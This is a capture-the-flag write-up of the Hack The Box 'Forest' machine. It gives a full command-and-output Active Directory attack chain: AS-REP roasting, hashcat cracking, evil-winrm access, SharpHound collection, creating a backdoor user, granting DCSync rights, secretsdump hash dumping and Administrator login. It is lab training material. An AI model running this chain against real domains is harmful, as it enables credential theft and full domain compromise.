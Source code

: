 ```yaml
---
title: HTB - Forest
date: 2024-03-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, forest, nmap, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/forest
published: true
image:
    path: machine_info.png
---
```


## HTB: Forest

>[Forest Box](https://app.hackthebox.com/machines/212)

![](forest_htb_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _svc-alfresco_|
|2|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|3|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|4|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated privilege escalation path|
|5|Executed privileged escalation path|LOTL*|Created & added a domain user to the required groups|
|6|Assiged user DCSync rights|[DCSync.py](https://github.com/n00py/DCSync)|Obtained //administrator//'s NTLMv2 hash|
|7|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

*_[Living Off The Land](https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/)_

## Detailed attack chain reproduction steps

Obtained the TGT ticket of of the **_svc-alfresco_** via a ASREPRoasting:

```bash
$ getnpusers -dc-ip 10.10.10.161 -request 'htb.local/'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-03-15 17:01:22.890339  2024-03-15 16:37:07.184448  0x410200

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 svc-alfresco_tgt /usr/share/wordlists/rockyou.txt

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588:s<REDACTED>e

<SNIP>
```

The obtained credentials was subsequently confirmed to the domain using [NetExec](https://github.com/Pennyw0rth/NetExec):

```bash
$ nxc smb 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e
https://github.com/Pennyw0rth/NetExec
```

An initial foothold to the domain was achieved:

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e

<SNIP>

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The **_user.txt_** file was compromised:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

Domain information was collected and then transferred to the attack host:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco> .\SharpHound.exe -c All

*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```

Upon review, two issues stood out:
  - _svc-alfresco_ was member of the _Account Operators_ group as a result of [group nesting](https://learn.microsoft.com/en-us/windows/win32/ad/nesting-a-group-in-another-group) (Figure 1)
  - The _Windows Exchange Permissions_ group had _WriteDACL_ permissions over the _HTB.LOCAL_ domain, which means that its members can obtain **DCSync rights** (Figure 2)

![Figure 1: svc-alfresco is a part of the Account Operators group.](forest_account_operators.png)

![Figure 2: The Windows Exchange Permissions group has WriteDACL rights over HTB.LOCAL.](forest_writedacl.png)

Based on the above information, a new domain user account was created and added to the _Windows Exchange Permissions_ and the _Remote Management Users_ group (to allow WinRM remote management):

```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker hack3r123 /add
The command completed successfully.

# add user to the groups
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" /add hacker
The command completed successfully.
```

The user was then assigned the DCSync rights:

```bash
$ sudo python3 DCSync.py -dc htb.local -t ''CN=hacker,CN=Users,DC=htb,DC=local'' ''htb.local\hacker:hack3r123''
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240316-103635.restore
```

The DCSync attack was performed and the _Administrator_'s NTLMv2 hash was obtained:

```bash
$ sudo /opt/impacket/examples/secretsdump.py htb.local/hacker:hack3r123@10.10.10.161
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad<REDACTED>4ee:326<REDACTED>ea6:::
<SNIP>
[*] Cleaning up...
```

The obtained hash was used to log in as _Administrator_ and achieve **full domain compromise** by obtaining the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.161 -u administrator -p aad<REDACTED>ea6

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
58a<REDACTED>525
```